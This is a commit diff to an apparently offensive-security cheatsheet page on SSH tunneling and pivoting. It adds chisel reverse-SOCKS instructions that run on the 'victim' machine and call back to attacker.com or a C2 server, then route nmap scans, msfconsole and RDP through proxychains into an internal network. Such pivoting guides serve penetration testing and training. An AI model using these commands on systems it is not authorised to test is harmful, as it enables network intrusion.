

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Network/Connections/SSH_Tunneling.md, in a window 1280 px wide and 1400 px high, scrolled down 1739 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2384 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update SSH_Tunneling.md
Modified chisel into two modes
Made most commands redundant in this page as two make it easy to understand rather than bouncing around (i.e. chisel_section--> proxychains_section)

````diff
--- a/docs/Network/Connections/SSH_Tunneling.md
+++ b/docs/Network/Connections/SSH_Tunneling.md
@@ -38,7 +36,7 @@ ssh -NfD localPort user@sshGateway
 ```bash
 proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
 proxychains msfconsole
-proxychains targetIP -u user -p password -g 90%
+proxychains rdesktop targetIP -u user -p password -g 90%
 proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
 proxychains firefox
 ```
@@ -75,13 +73,55 @@ sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
 ./chisel client -v <YOUR_KALI_IP>:8000 3333:127.0.0.1:3333
 ## After the command above, execute the command below on your Kali machine or something similar (.e. exploit/multi/handler)
 nc -lnvp 3333
-
-# Socks proxy  (Commonly on the 1st compromised machine [Pivot Machine])
-./chisel client -v <YOUR_KALI_IP>:8000 R:socks
-# After the command above, make sure to do follow the "Dynamic port forwarding with proxychains" instructions above
-
-
 ```
+* Chisel Socks Proxy
+    * Using `reverse` command
+        * On the server (C2[cloud] / Kali VM[internal/labs])
+            ```bash
+            ./chisel server -v -p 8000 --reverse
+            sudo echo "socks5 127.0.0.1 1080" > /etc/proxychains.conf
+            ```
+        * On the client/target/victim machine
+            ```bash
+            chisel.exe client -v <c2/kali_IP>:8000 R:socks
+            or
+            chisel.exe client -v attacker.com:8000 R:socks
+            or
+            chisel.exe client -v 192.168.1.5:8000 R:socks
+            ```
+        * On the server (C2[cloud] / Kali VM[internal/labs])
+            ```bash
+            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
+            ssh -NfD 1080 127.0.0.1 # or your c2 server (ssh -NfD 1080 attackerdomain.com)
+            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
+            proxychains msfconsole
+            proxychains rdesktop targetIP -u user -p password -g 90%
+            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
+            proxychains firefox
+            ```
+    * Using `socks5` command
+        * On the server (C2[cloud] / Kali VM[internal/labs])
+            ```bash
+            ./chisel server -v -p 8000 --socks5
+            ```
+        * On the client/target/victim machine
+            ```bash
+            chisel.exe client -v <c2/kali_IP>:8000 socks
+            or
+            chisel.exe client -v attacker.com:8000 socks
+            or
+            chisel.exe client -v 192.168.1.5:8000 socks
+            ```
+        * On the server (C2[cloud] / Kali VM[internal/labs])
+            ```bash
+            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
+            ssh -NfD 1080 127.0.0.1 # or your c2 server (ssh -NfD 1080 attackerdomain.com)
+            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
+            proxychains msfconsole
+            proxychains rdesktop targetIP -u user -p password -g 90%
+            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
+            proxychains firefox
+            ```
 
 
 [^1]: [not so pro](https://blog.notso.pro/2019-10-24-tactical-debriefing1/)
````
Also changed, not shown: other parts of docs/Network/Connections/SSH_Tunneling.md (+0 -2 lines).
